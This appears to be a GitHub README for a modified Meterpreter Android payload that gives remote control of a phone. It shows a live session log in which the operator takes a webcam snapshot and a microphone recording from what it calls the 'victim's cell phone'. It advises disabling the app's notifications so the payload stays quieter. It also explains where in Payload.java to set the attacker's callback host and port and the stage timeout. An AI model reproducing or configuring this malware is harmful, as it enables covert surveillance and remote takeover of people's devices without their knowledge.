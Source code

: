 # Meterpreter-Android
<img src="https://cloud.githubusercontent.com/assets/7417870/12315404/6dd58120-bab5-11e5-8a10-d5fec03d38d2.gif" width="100" align="right">
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```
Tuturial:

Editing through Android Studio:

Open the file: Nous/app/src/main/java/nous/client/Payload.java

On line 26 edit your host and Port.
```
public static final String URL = "ZZZZtcp://Host:Port
```

On line 123 you can adjust the metasploit stage waiting time:
```
sock.setSoTimeout(1000);
```
